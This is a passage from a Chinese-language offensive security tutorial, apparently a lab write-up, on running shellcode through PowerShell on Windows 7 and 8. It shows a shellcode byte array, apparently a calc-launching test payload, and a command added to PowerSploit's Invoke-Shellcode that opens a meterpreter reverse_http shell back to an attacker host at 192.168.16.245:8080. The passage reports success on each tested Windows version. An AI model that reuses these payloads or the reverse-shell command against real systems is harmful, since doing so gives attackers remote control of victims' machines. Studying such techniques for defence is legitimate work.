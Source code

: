 ```
                                  0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,
                                  0x6a,0x01,0x8d,0x85,0xb9,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,
                                  0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,
                                  0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,
                                  0x61,0x6c,0x63,0x00)

```

在win7 x86下

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/6f015da0ee4298895acba1cedaecec09a3138e07.jpg)

在win 7 x64下，将Shellcode替换为64为Shellcode，执行同样成功，截图略

win8 x86成功，略。  
win8 x64成功，略。

**测试2：**

```
> 利用powershell反弹meterpreter

```

在Invoke--Shellcode.ps1尾部添加如下代码，并保存为CodeExecution-Meterpreter.ps1

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8080

```

在win7 x86下，

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/4c8b704ae3bf41a011d50e30e567a285194f399e.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/b3c9f7d067aa16f42b22c867d59ba69cc973c843.jpg)

win7 x64成功，略。  
win8 x86成功，略。  
win8 x64成功，略。

2、利用powershell加载exe
-------------------

参考地址：  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
